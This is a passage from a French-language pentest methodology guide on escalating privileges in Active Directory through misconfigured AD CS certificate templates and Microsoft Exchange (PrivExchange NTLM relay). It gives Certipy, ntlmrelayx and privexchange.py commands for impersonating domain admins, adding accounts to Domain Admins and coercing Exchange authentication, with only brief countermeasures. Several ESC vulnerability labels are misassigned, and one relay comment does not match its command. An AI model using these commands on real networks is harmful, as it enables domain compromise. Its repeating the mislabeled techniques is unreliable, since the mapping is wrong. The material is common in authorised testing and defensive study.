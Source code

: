 # V.D. Exploitation de Services (Exchange, ADCS, etc.)

Certains services étroitement intégrés à Active Directory, comme Microsoft Exchange ou Active Directory Certificate Services (AD CS), peuvent présenter des vulnérabilités ou des configurations faibles menant à une élévation de privilèges.

## 1. Active Directory Certificate Services (AD CS)

Des configurations incorrectes d'AD CS peuvent permettre à un attaquant d'obtenir des certificats au nom d'autres utilisateurs (y compris des admins) ou d'ordinateurs, menant à une compromission totale du domaine.
Voir la section [IV.C Énumération ADCS](../04-post-compromission/C-enumeration-adcs.md) pour l'identification des vulnérabilités (ESC1 à ESC8+).

*   **Exploitation avec Certipy :**
    Certipy est l'outil principal pour exploiter les failles AD CS.

    *   **ESC1 (SAN mal configuré + Authentification Client) :**
        ```bash
        # Demander un certificat pour un template vulnérable (ex: VulnTemplate) en spécifiant un SAN pour un admin (ex: domainadmin)
        certipy req -u <ATTAQUANT_USER>@<DOMAINE> -p <ATTAQUANT_PASS> -ca <NOM_CA> -target <DC_IP> -template VulnTemplate -upn domainadmin@<DOMAINE> -dns <NOM_DC>.<DOMAINE>
        # Le certificat et la clé privée sont sauvegardés (ex: domainadmin.pfx)
        # Convertir en .pem si nécessaire pour certains outils
        # openssl pkcs12 -in domainadmin.pfx -out domainadmin.pem -nodes

        # S'authentifier avec le certificat (ex: avec Rubeus ou certipy auth)
        certipy auth -pfx domainadmin.pfx -dc-ip <DC_IP>
        # Ou avec Rubeus pour obtenir un TGT
        # Rubeus.exe asktgt /user:domainadmin /certificate:domainadmin.pfx /password:<MOT_DE_PASSE_PFX_SI_DEFINI> /ptt
        ```

    *   **ESC2 (Agent d'Inscription) :**
        Si l'attaquant contrôle un compte agent d'inscription ou un template permettant l'inscription pour le compte d'autrui.
        ```bash
        # Demander un certificat pour 'cible_user' via le template 'EnrollmentAgentTemplate' au nom de 'agent_user'
        certipy req -u agent_user@<DOMAINE> -p <AGENT_PASS> -ca <NOM_CA> -target <DC_IP> -template User -on-behalf-of <DOMAINE>\cible_user
        # S'authentifier ensuite avec le certificat de cible_user.
        ```

    *   **ESC3 (Permissions de modification sur un Template) :**
        1.  Modifier le template pour le rendre vulnérable à ESC1 (ajouter l'EKU Authentification Client, permettre au demandeur de spécifier le SAN).
            ```bash
            # Exemple conceptuel avec certipy (les commandes exactes peuvent varier)
            # certipy template -template <NOM_TEMPLATE> -save-old # Sauvegarder l'ancienne config
            # certipy template -template <NOM_TEMPLATE> -add-eku "Client Authentication" -set-flag "ENROLLEE_SUPPLIES_SUBJECT"
            ```
        2.  Exploiter comme ESC1.
        3.  Restaurer le template.

    *   **ESC4 (WriteDacl sur utilisateur/ordinateur + Template d'auth client) :**
        1.  Demander un certificat pour soi-même via un template permettant l'authentification client.
        2.  Ajouter le certificat à l'attribut `altSecurityIdentities` de l'utilisateur/ordinateur cible sur lequel on a `WriteDacl`.
            ```powershell
            # Obtenir le certificat (X509:<I>Issuer<S>Subject)
            # $cert = Get-PfxCertificate -FilePath .\mycert.pfx
            # $altSecId = "X509:<I>$($cert.Issuer)<S>$($cert.Subject)"
            # Set-ADUser <UTILISATEUR_CIBLE> -Add @{'altSecurityIdentities'=$altSecId}
            # Ou avec certipy shadowcred
            certipy shadowcred -u <ATTAQUANT_USER>@<DOMAINE> -p <ATTAQUANT_PASS> -target-user <CIBLE_USER> -pfx <ATTAQUANT_CERT.pfx> -dc-ip <DC_IP>
            ```
        3.  S'authentifier en tant que l'utilisateur cible avec le certificat.

    *   **Autres vulnérabilités (ESC6, ESC7, ESC8, etc.) :** Se référer à la documentation de Certipy et aux articles de recherche de SpecterOps.

## 2. Microsoft Exchange

Exchange est profondément intégré à AD et possède des privilèges élevés. Des vulnérabilités ou des configurations spécifiques peuvent être exploitées.

*   **PrivExchange (CVE-2018-8581 et relais NTLM vers LDAP) :**
    *   **Principe :** Un utilisateur Exchange avec une boîte aux lettres peut forcer le serveur Exchange à s'authentifier auprès d'une machine contrôlée par l'attaquant via HTTP (PushSubscription). L'attaquant relaie cette authentification NTLM du compte machine Exchange vers LDAP(S) pour effectuer des actions privilégiées (ex: DCSync si Exchange a les droits, ou ajouter un utilisateur à un groupe privilégié).
    *   **Outils :** `ntlmrelayx.py` (Impacket), `PrivExchange.py` ou scripts PowerShell.
    *   **Étapes (simplifié) :**
        1.  L'attaquant a des credentials pour un utilisateur avec une boîte aux lettres.
        2.  Configurer `ntlmrelayx.py` pour relayer vers LDAPS et effectuer une action (ex: `secretsdump.py` pour DCSync, ou ajouter un compte à Domain Admins).
            ```bash
            # Relais pour DCSync (si Exchange a les droits)
            sudo ntlmrelayx.py -t ldaps://<IP_DC> --remove-mic --escalate-user NOUVEL_ADMIN_DA
            # Ou pour ajouter un compte à un groupe
            # sudo ntlmrelayx.py -t ldaps://<IP_DC> --add-group-member "Domain Admins" "DOMAINE\utilisateur_a_ajouter"
            ```
        3.  Utiliser un outil comme `privexchange.py` pour déclencher l'authentification du serveur Exchange vers l'IP de l'attaquant où `ntlmrelayx.py` écoute.
            ```python
            python privexchange.py -ah <IP_ATTAQUANT> -u <USER_EXCHANGE> -p <PASS_EXCHANGE> <IP_EXCHANGE_SERVER>
            ```
    *   **Contre-mesures :** Activer LDAP Signing & Channel Binding, EPA sur Exchange, patcher CVE-2018-8581, réduire les privilèges du groupe "Exchange Windows Permissions" (notamment le droit `WriteDacl` sur l'objet Domaine).

*   **RBAC (Role Based Access Control) dans Exchange :**
    *   Des utilisateurs peuvent avoir des rôles administratifs Exchange qui leur permettent d'effectuer des actions sensibles (ex: `Mailbox Import Export` pour lire les emails d'autres utilisateurs, `ApplicationImpersonation` pour accéder aux boîtes aux lettres).
    *   **Énumération :**
        ```powershell
        # Depuis une session PowerShell Exchange Management Shell
        Get-ManagementRoleAssignment -RoleAssignee <UTILISATEUR>
        # Lister les membres d'un rôle
        Get-RoleGroupMember "Organization Management"
        ```
    *   **Exploitation :** Utiliser les cmdlets Exchange correspondantes.

*   **Autres Vulnérabilités Exchange (ProxyLogon, ProxyShell, etc.) :**
    Ces vulnérabilités permettent souvent un accès initial ou une exécution de code à distance sur le serveur Exchange. Une fois sur le serveur, le compte machine Exchange (souvent membre de "Exchange Servers" et "Exchange Trusted Subsystem") a des privilèges élevés dans AD.

## 3. Autres Services
*   **SQL Server avec des liens vers AD :** Des SQL Servers mal configurés ou avec des comptes de service privilégiés peuvent être des points d'entrée.
*   **SCCM (System Center Configuration Manager) :** Peut être utilisé pour déployer des logiciels (et donc du code) sur des machines. Un accès admin à SCCM peut mener à une compromission à grande échelle.

**Stratégie Générale :**
1.  Identifier les services critiques intégrés à AD.
2.  Énumérer leurs configurations et permissions.
3.  Rechercher des vulnérabilités connues ou des mauvaises configurations spécifiques à ces services.
4.  Utiliser des outils spécialisés pour l'exploitation. 